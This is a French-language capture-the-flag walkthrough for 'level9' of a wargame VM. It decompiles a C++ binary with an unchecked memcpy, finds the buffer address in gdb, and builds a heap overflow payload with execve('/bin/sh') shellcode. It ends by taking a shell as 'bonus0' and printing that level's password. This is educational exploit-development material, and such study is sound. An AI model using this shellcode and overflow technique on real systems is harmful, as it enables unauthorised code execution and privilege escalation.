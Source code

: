 # LEVEL 9
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `bonus0`.

1. Une fois connecté à la VM sur le `level9`, l'on retrouve un fichier `level9` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

	```sh
	> scp -P 4242 level9@127.0.0.1:level9 /path/on/machine/host
	```

3. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
    #include <cstring>
    #include <cstdlib>

    class N {
    	private:
    		int		m_Value;
    		char	m_Annotation[100];

    	public:

    		N(int n) : m_Value(n) {}

    		int		operator+(N& n) {
    			return m_Value + n.m_Value;
    		}

    		int		operator-(N& n) {
    			return m_Value - n.m_Value;
    		}

    		void	setAnnotation(char* annotation) {
    			std::memcpy(m_Annotation, annotation, std::strlen(annotation));
    		}
    };

    int main(int argc, char** argv)
    {
    	if (argc < 2) {
    		return EXIT_FAILURE;
    	}

    	N* n1 = (N*) new N(5);
    	N* n2 = (N*) new N(6);

    	n1->setAnnotation(argv[1]);
    	(*n1 + *n2);

    	return EXIT_SUCCESS;
    }
    ```
   Avant toute chose, l'on constate que le désassemblage ci-dessus est en `CPP/C++` et non pas `C` comme dans les niveaux précédents.

   De ce fait, le programme définit en premier lieu une classe `N` avec les membres suivants :
    - `m_Value` : Un entier privé qui stocke une valeur ;
    - `m_Annotation` : Un tableau de caractères de 100 caractères privé.

    De plus, la classe `N` possède les fonctions membres suivantes :
    - Un constructeur : Prends un entier `n` de type `int` et qui initialise `m_Value` avec cette valeur ;
    - Un `operator+` : Surcharge de l'opérateur d'addition qui permet d'additionner deux objets de la classe `N` en additionnant leurs `m_Value` ;
    - Un `operator-` : Surcharge de l'opérateur de soustraction qui permet de soustraire deux objets de la classe `N` en soustrayant leurs `m_Value` ;
    - La fonction `setAnnotation` : Une fonction qui prend un pointeur vers une chaîne de caractères, soit `char* annotation`, et copie cette chaîne dans le tableau `m_Annotation` en utilisant `std::memcpy` et `std::strlen`.

    Mise à part cette classe, le programme ne définit qu'une seule autre fonction : la fonction `main` avec comme paramètres les arguments `argc` et `argv`. Cette dernière commence par vérifier si le nombre d'arguments dans la ligne de commande est inférieur à 2 (`argc < 2`). Si c'est le cas, le programme renvoie EXIT_FAILURE, indiquant une sortie d'erreur. Dans le cas contraire, la fonction `main` instancies 2 objets de classe `N`, soit `n1` et `n2`, avec les valeurs `5` et `6`, respectivement. Pour continuer, la fonction `setAnnotation` de `n1` est appelée avec l'argument `argv[1]` afin de copier cette chaîne de caractères dans `m_Annotation`. Une opération d'addition est ensuite effectuée entre `n1 `et `n2`, mais le résultat n'est pas stocké ni utilisé. Enfin, le programme renvoie `EXIT_SUCCESS`, indiquant une sortie réussie.

    En conclusion, l'on peut cependant noter que certaines parties du code sont peu sécurisées et peuvent ainsi nous permettre d'exploiter ce programme.

4. Le code `level9` ne propose pas de fonction directe pour lancer un shell interactif ou afficher le contenu du fichier `.pass` du niveau suivant. Il faudra donc utiliser un `shellcode` déjà éprouvé, capable d'exécuter la commande `("/bin/sh")`, pour atteindre cet objectif. Pour ce faire, l'on va chercher à exploiter la fonction `std::memcpy` située dans la méthode `setAnnotation`. En provoquant un `buffer overflow`sur le paramètre `char *annotation`, l'on peut manipuler la pile d'exécution, rediriger le flux de contrôle vers notre `shellcode` et ainsi exécuter un shell interactif.

    Code shellcraft :
    ```sh
	"\x31\xc0\x50\x68\x2f\x2f\x73"
	"\x68\x68\x2f\x62\x69\x6e\x89"
	"\xe3\x89\xc1\x89\xc2\xb0\x0b"
	"\xcd\x80\x31\xc0\x40\xcd\x80"
	```

	Lien : https://shell-storm.org/shellcode/files/shellcode-811.html

5. Dans un premier temps, nous allons récupérer l'adresse de la fonction membre `setAnnotation` en lançant `gdb` sur l'exécutable `level9` et la commande `disas main`.

    ```sh
    > gdb level9
    > (gdb) disas main
	Dump of assembler code for function main:
		[...]
		0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
		[...]
	End of assembler dump.
    ```

    On obtient donc l'adresse `0x804870e` pour la fonction membre `setAnnotation`.

6. On va à présent chercher l'adresse du paramètre `char *annotation` au sein de la fonction membre `setAnnotation`. On effectue donc les étapes suivantes au sein de `gdb` :

    - On set tout d'abord un `breaking point` sur l'adresse de la fonction membre `setAnnotation` :

        ```sh
        > (gdb) b *0x804870e
    	Breakpoint 1 at 0x804870e
        ```

    - On exécute le programme en fournissant un paramètre qui sera stocké dans `char* annotation` et copié via la fonction `std::memcpy`. Pour cela, nous utilisons la commande `run` pour lancer le programme et exécutons chaque étape du code en utilisant la commande `step`. Nous continuons jusqu'à atteindre le `breaking point`.

        ```sh
        > (gdb) run AXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXEL
		Starting program: /home/user/level9/level9 AXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXEL

		Breakpoint 1, 0x0804870e in N::setAnnotation(char*) ()

		(gdb) step
		Single stepping until exit from function _ZN1N13setAnnotationEPc,
		which has no line number information.
		0x0804867c in main ()
        ```

    - Ainsi, la chaîne de caractères `char* annotation` devrait maintenant être stocker dans un registrer. On la cherche donc via la commande `info registers.

       ```sh
       > (gdb) info registers
		eax            0x804a00c	134520844
		ecx            0x0	0
		edx            0x804a050	134520912
		ebx            0x804a078	134520952
		esp            0xbffff6d0	0xbffff6d0
		ebp            0xbffff6f8	0xbffff6f8
		esi            0x0	0
		edi            0x0	0
		[...]
       ```

    - Avec un peu de chance, on suppose que le premier register `eax` contient la chaîne de caractère passé en paramètre lors du `run`. On s'en assure en examiner l'adresse `0x804a00c`.

        ```sh
        > (gdb) x/s 0x804a00c
		0x804a00c:	 "AXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXELAXEL"
        ```

    Ainsi, l'adresse du paramètre `char *annotation` au sein de la fonction membre `setAnnotation` est bien `0x804a00c`.

7. Maintenant que l'on cette adresse, l'on peut passer à la création de notre `payload`.

    ```sh
    python -c "print('\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 76 + '\x0c\xa0\x04\x08')"
    ```

    On a :
    - `'\x0c\xa0\x04\x08'`: L'adresse du paramètre `char *annotation` au sein de la fonction membre `setAnnotation` en format `little-endian` ;
    - `'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'`: Le `shellcode` permettant n'exécutant un shell interactif ;
    - `'\x90' * 76`: L'overflow nécessaire pour se retrouver à l'adresse correspondant au début du string.

8. Il manque plus qu'à lancer le programme avec le payload précédemment définie pour `buffer overflow` la fonction `std:memcpy` située dans la fonction membre `setAnnotation`, lancé notre shell interactif via notre shellcode et `cat` le fichier `/home/bonus0/.pass`. On lance au passage la commande `whoami` pour s'assurer qu'on est bien passé de `level9` a `bonus0`.

    ```sh
    > ./level9 $(python -c "print('\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 76 + '\x0c\xa0\x04\x08')")
    > whoami
    bonus0
    > cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    ```

9. On peut à présent passer au niveau supérieur en exécutant la commande `su bonus0` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su bonus0
    Password :
    > f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    ```
